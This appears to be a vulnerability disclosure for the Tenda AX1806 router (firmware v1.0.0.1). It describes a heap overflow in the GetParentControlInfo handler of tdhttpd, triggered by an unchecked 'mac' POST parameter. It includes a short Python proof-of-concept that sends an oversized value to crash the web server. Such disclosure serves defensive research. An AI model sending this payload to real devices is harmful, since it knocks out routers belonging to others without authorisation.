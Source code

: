 # Tenda AX1806 GetParentControlInfo function heap overflow

## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

/bin/tdhttpd has a heap overflow vulnerability.The vulnerability exists in GetParentControlInfo function, we can through the URL `goform/GetParentControlInfo` access to it. 

- <img src="image/1.png" alt="1.png" style="zoom:50%;" />

The function takes the POST parameter `mac`, does not verify its length, and copies it directly to the heap memory, resulting in a heap overflow.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"mac": b"A"*0x400
}
res = requests.post("http://127.0.0.1/goform/GetParentControlInfo", data=data)
print(res.content)
```

I use qemu-user to emulate it. When I run the POC script, I can see

<img src="./image/2.png" alt="2.png" style="zoom:50%;" />

